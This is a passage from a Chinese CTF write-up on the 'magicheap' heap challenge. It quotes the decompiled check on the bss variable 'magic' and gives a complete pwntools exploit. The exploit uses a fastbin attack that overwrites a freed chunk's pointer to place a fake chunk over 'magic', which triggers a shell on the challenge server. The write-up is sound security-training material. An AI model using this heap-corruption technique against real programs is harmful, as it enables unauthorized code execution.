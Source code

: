 

## 0x06 hitcontraining_magicheap

还是一道菜单堆题，而且当我们输入4869时，程序会判断位于bss段的参数magic是否大于0x1305，大于则调用函数 `l33t()` ，和上面那题[ZJCTF 2019]EasyHeap差不多，而且这次是给了shell，不是给了假的flag位置，直接fastbin attack就可以了。

```
if ( v3 == 4869 )
      `{`
        if ( (unsigned __int64)magic &lt;= 0x1305 )
        `{`
          puts("So sad !");
        `}`
        else
        `{`
          puts("Congrt !");
          l33t();
        `}`
      `}`
```

exp:

```
from pwn import *

context(arch = 'amd64', os = 'linux', log_level = 'debug')
# io = process('./magicheap')
io = remote('node3.buuoj.cn', 25599)

def add(size, content):
    io.sendlineafter('Your choice :', '1')
    io.sendlineafter('Size of Heap : ', str(size))
    io.sendlineafter('Content of heap:', content)

def edit(id, size, content):
    io.sendlineafter('Your choice :', '2')
    io.sendlineafter('Index :', str(id))
    io.sendlineafter('Size of Heap : ', str(size))
    io.sendlineafter('Content of heap : ', content)

def delete(id):
    io.sendlineafter('Your choice :', '3')
    io.sendlineafter('Index :', str(id))

fake_chunk = 0x6020a0 - 0x13

add(0x60, 'aaaa') # 0
add(0x60, 'aaaa') # 1
add(0x10, 'aaaa') # 2

delete(1)
edit(0, 0x78, 'a' * 0x60 + p64(0) + p64(0x71) + p64(fake_chunk))

add(0x60, 'aaaa') # 1
add(0x60, 'a' * 0x14) # 3 / fake

io.sendlineafter(':', '4869')
io.interactive()
```
